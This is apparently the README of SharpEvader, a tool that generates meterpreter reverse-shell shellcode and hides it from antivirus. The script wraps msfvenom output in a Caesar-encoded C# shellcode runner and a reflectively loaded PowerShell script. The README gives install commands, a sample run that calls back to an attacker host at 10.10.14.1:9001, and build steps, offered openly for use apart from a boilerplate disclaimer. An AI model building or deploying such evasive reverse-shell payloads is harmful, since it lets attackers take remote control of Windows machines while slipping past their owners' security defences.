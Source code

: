 # 🤔 SharpEvader
#### This is a python script which automatically generates meterpreter `tcp`/`https` shellcode and caeser encodes it and slaps some Behavioural detection in a c# Project for you to build and run


# ✨ Features
- Automatically generate's `windows/x64/meterpreter/reverse_https` or `windows/x64/meterpreter/reverse_tcp` shellcode by borrowing `msfvenom`(What more do you expect, Write an `msfvenom` clone from scratch ??) from your linux host.
- Applies some magic sauce inorder to bypass the Signature Based detection.(The magic sauce is absolutely not Caeser Cipher).
- Generate's a C# Project with the encoded shellcode and some more spells to bypass Behavioural Based Detection.
- Quick, Order your Reverse Shell now Available at an easy installment of $999 each :)
- Powershell Script to generate a reflection ps1 script with the C# executable embedded inside it[Tested as of 1st July 2022].
- Does not use Java !!!
- Owner's or Contributor's of this repo does not take responsibiltes of any damages caused using it or with it, any illegal usage is highly discouraged.


# ⚙️ Requirements
- Python3.7+
- msfvenom or Metasploit Framework
- mono-mcs C# compiler package
- Powershell on Linux[Optional]
```bash
sudo apt update && sudo apt install python3 metasploit-framework mono-mcs powershell
# Metasploit-framework & Powershell are defaultly available on Kali & hopefully parrot(If your distro doesn't have it then its your headache)
```

# 🤸 Usage

## [Automatic Method]Run SharpEvader.py which would give you compiled exe and ps1 script inside the output folder
```bash
~/SharpEvader > python3 sharpevader.py

 ____  _                      _____                _           
/ ___|| |__   __ _ _ __ _ __ | ____|_   ____ _  __| | ___ _ __ 
\___ \| '_ \ / _` | '__| '_ \|  _| \ \ / / _` |/ _` |/ _ \ '__|
 ___) | | | | (_| | |  | |_) | |___ \ V / (_| | (_| |  __/ |   
|____/|_| |_|\__,_|_|  | .__/|_____| \_/ \__,_|\__,_|\___|_|   
                       |_|                                     
	
LHOST: 10.10.14.1
LPORT: 9001
PAYLOAD TYPE(tcp/https): tcp
[*] Using LHOST as 10.10.14.1, LPORT as 9001 and PAYLOAD as windows/x64/meterpreter/reverse_tcp
[*] Generating msfvenom shellcode...
[+] MSFVenom Shellcode generation successful
[+] Encoded shellcode with caeser cipher with +7 as Key
[*] Deleting the msf_shellcode.hex file as no one wants it anymore
[*] Baking the fresh Shellcode into a C# project for compiling
[+] Your C# shellcode runner is baked successfully, and it smells nice !!!
[+] C# Compiler found, Time for some frosting on the cake ^_^
[+] Your cake has been frosted successfully and named output/10.10.14.1_9001_tcp/rev.exe
[+] Powershell Found, Let\'s Box up your frosted cake...
[+] Boxed it up and named output/10.10.14.1_9001_tcp/rev.ps1
[+] Happy Evasion using 10.10.14.1_9001_tcp!!!

~/SharpEvader/output/10.10.14.1_9001_tcp >  ls -l
total 16
drwxr-xr-x 3 root root 4096 Aug  9 17:26 csharp
-rwxr-xr-x 1 root root 5120 Aug  9 17:26 rev.exe
-rw-r--r-- 1 root root 3308 Aug  9 17:26 rev.ps1
```

---

## [Manual Method]The C# project directory would be placed inside the output directory with name [[LHOST]_[LPORT]_[PAYLOADTYPE]]/csharp/
```bash
~/SharpEvader/output/10.10.14.1_9001_tcp/csharp > ls -l
total 24
-rwxr-xr-x 1 root root  189 Aug  9 17:26 App.config
-rwxr-xr-x 1 root root 4135 Aug  9 17:26 Program.cs
drwxr-xr-x 2 root root 4096 Aug  9 17:26 Properties
-rwxr-xr-x 1 root root 3189 Aug  9 17:26 rev.csproj
-rwxr-xr-x 1 root root  892 Aug  9 17:26 rev.sln
```

## To be done on Windows
- Transfer the rev_exe_[timestamp] from the output directory and launch `rev.sln` using `Visual Studio`.
- Build the Project using the `Release` and `x64` build configuration.
- Voila !!! The built C# executable would be available in the `rev_exe_[timestamp]/bin/x64/Release/rev.exe`

---

## [Optional] Can be done in Windows/Linux with powershell available
- Execute the `reflection_pwsh_gen.ps1` supplying the `-File` argument as the absolute path to the `rev.exe`
- This would generate a `rev.ps1` which would be consist the C# binary embedded into a ps1 script which would be reflectively loaded in the memory.

---

```bash
~/SharpEvader > pwsh reflection_pwsh_gen.ps1 -File ~/SharpEvader/output/rev_exe_01072022021313AM/bin/x64/Release/rev.exe
[+] Written the C# Embedded Reflection Reverse Shell into rev.ps1
```


# ‼️ Disclaimer

THIS SOFTWARE IS PROVIDED BY THE COPYRIGHT HOLDERS AND CONTRIBUTORS "AS IS" AND ANY EXPRESS OR IMPLIED WARRANTIES, INCLUDING, BUT NOT LIMITED TO, THE IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR PURPOSE ARE DISCLAIMED. IN NO EVENT SHALL THE COPYRIGHT HOLDER OR CONTRIBUTORS BE LIABLE FOR ANY DIRECT, INDIRECT, INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES (INCLUDING, BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES; LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER CAUSED AND ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY, OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE OF THIS SOFTWARE, EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE.
